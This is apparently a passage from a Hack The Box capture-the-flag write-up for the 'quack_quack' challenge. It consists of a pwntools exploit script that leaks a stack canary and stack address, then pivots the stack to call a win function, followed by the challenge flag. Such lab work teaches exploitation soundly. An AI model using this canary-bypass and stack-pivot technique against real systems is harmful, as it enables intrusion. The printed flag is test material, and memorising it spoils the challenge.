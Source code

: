 Let's put this all together
```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./quack_quack")
libc = ELF("./glibc/libc.so.6")
ld = ELF("./glibc/ld-linux-x86-64.so.2")

context.binary = exe
context.log_level = "debug"

global r
def conn():
    global r
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path])
    else:
        r = remote("addr", 1337)

    return r

BUF_OFF = 100
OFFSET_BSTACK = 96
STACK_DIFF = 128
WIN = exe.symbols["duck_attack"]

def main():
    conn()

    # We try to leak the canary and stack address by not printing the 0x00 byte (+2)
    payload = (b"Quack Quack \x00").rjust(BUF_OFF+2, b"A")
    r.sendafter(b"> ", payload)

    r.recvuntil(b"Quack Quack ")
    canary = u64(b"\x00" + r.recv(7))
    r.success(f"Leaked canary: {hex(canary)}")
    stack_addr = u64(r.recv(6) + b"\x00\x00") - STACK_DIFF + 8 # We need the canary to be at rbp-8
    r.success(f"Stack addr of second buf: {hex(stack_addr)}")

    #Fake stack to call the win function from main
    upper = flat([ 
        canary,
        0xdeadbeaf,
        WIN
    ]).ljust(OFFSET_BSTACK-8, b"A") #Found this offset the same way as before

    # Move stack to our fake replica
    payload = upper + flat([canary, stack_addr])
    r.sendafter(f"> ", payload)

    r.interactive()

if __name__ == "__main__":
    main()
```

>HTB{~c4n4ry_g035_qu4ck_qu4ck~_bb5be49bc421f11646e85b598441c163}